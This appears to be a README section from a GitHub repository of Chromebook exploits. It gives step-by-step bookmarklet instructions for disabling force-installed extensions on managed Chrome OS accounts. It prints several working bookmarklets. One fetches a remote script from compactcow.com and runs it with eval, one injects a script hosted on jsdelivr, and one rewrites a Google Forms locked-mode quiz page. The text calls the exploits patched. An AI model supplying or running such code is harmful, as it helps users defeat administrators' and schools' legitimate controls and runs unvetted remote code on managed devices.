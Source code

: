 Use either of the two bookmarklets below. The instructions are the same for both.

1. Copy the Javascript code from either of the two bookmarklets below
2. Make a new bookmark on your Chromebook
3. Put the Javascript code in the URL section of the bookmark
4. Visit https://chrome.google.com/webstorex. (This is a 404 page, and that is ok.)
5. If that page does not work, you can just change the end of the URL to anything else, like https://chrome.google.com/webstoreYAAAAAAAAAAAAAAAY
6. Click on the bookmark you made
7. Switch off the extensions you don't want to have anymore.
8. You're done! The extension should now be disabled. 

**Please note that this exploit has been patched for quite some time**

### Bookmarklets

#### CompactCow GUI

![compactcowgui](img/compactcow.png)

```js
javascript:fetch(`https://compactcow.com/ltbeef/exploit.js`).then(data=>{data.text().then(text=>{eval(text)})});
```

#### Ingot

![ingot](img/ingot.png)

```js
javascript:(function () {var a = document.createElement('script');a.src = 'https://cdn.jsdelivr.net/gh/FogNetwork/Ingot/ingot.min.js';document.body.appendChild(a);}())
```

[**🔼 Back to top**](#ext-remover)

## LoMoH *Disable extensions*

Formerly named "Locked Mode Hack," this Chrome OS exploit uses the locked mode feature to soft disable force-enabled extensions on managed accounts (Excluding Hapara Highlights and Read&Write if installed).

**This exploit is patched in Chrome OS 111**

### Bookmarklet Version (Original and nicer)
```
javascript:(function(){if (location.hostname == "docs.google.com") {document.body.innerHTML = document.body.innerHTML.replace("Locked mode is on", "Are you ready to turn off extensions?%22);%20document.body.innerHTML%20=%20document.body.innerHTML.replace(%22You%20have%20already%20opened%20and%20closed%20this%20quiz.%20Opening%20this%20quiz%20again%20will%20notify%20the%20form%20owner%20by%20email.%22,%20%22This%20will%20reload%20all%20tabs%20in%20your%20browser%22);%20var%20button%20=%20document.getElementById(%27mG61Hd%27);%20button.innerHTML%20=%20button.innerHTML.replace(%22Start%20Quiz%22,%20%22Disable%20Extensions%22);%20button.addEventListener(%27click%27,%20function(event){window.close();})}%20else%20{window.open(%22https://docs.google.com/forms/u/0/d/e/1FAIpQLSf5EYwrSUjmQhBOasMpORZy80eBCYb7qCpEwWNoRPUGyObGMA/startquiz%22);}})()
```
